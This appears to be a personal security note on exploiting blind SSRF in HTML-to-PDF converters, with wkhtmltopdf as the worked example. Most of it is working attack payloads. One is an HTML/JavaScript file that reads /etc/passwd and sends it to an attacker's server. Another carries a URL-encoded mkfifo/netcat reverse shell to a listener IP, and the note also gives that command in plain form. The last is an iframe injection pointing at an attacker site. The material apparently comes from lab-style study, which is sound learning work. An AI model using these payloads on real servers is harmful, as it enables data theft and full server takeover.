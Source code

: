 Some websites, allows their users to generate a PDF based on the input they have provided.
## Data Exfiltration with Blind SSRF
In the following example scenario, a website accepts a `.html` input via file upload, which then converts the said HTML file into a PDF.

1. First let's confirm that a SSRF vulnerability exists by creating an `index.html` file that we will use to house our payload and upload it into the web application.
```html
<!DOCTYPE html>
<html>
	<body>
		<h1>Hello, World!</h1>
		<img src="http://<OUR IP>:PORT/x?=viaimgtag"/>
	</body>
</html>
```
2. For simplicity, we will use a Netcat listener to test for Blind SSRF.
```bash
nc -nvlp 4444
```
3. After awhile, we will see a response to our Netcat listener.
```bash
connect to [10.10.14.253] from (UNKNOWN) [10.129.155.177] 37124
GET /?x=testing HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 10.10.14.253:4444
```
By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

`Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.`

This means we can execute JavaScript, this widens our attack surface and gives us more opportunity to escalate the attack.
### Read Local File or Gain RCE using JavaScript Payload
We will now modify our `index.html` file to use JavaScript and read a local file inside the web server to exfiltrate data. We can use the following payload for this task:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

Additionally, we can also use this technique to gain remote code execution (RCE) into the web server using the following payload:
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=rm%252520%25252Ftmp%25252Ff%25253Bmkfifo%252520%25252Ftmp%25252Ff%25253Bcat%252520%25252Ftmp%25252Ff%25257Csh%252520-i%2525202%25253E%2525261%25257Cnc%25252010.10.14.253%2525204444%252520%25253E%25252Ftmp%25252Ff%25250A%250A%0A", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```
> Note: The payload is encoded using the following command: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.253 4444 >/tmp/f" | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri`. We can look for different reverse shell payloads at [revshells.com](https://revshells.com).
## SSRF Chain with XSS
If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a [Cross Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.
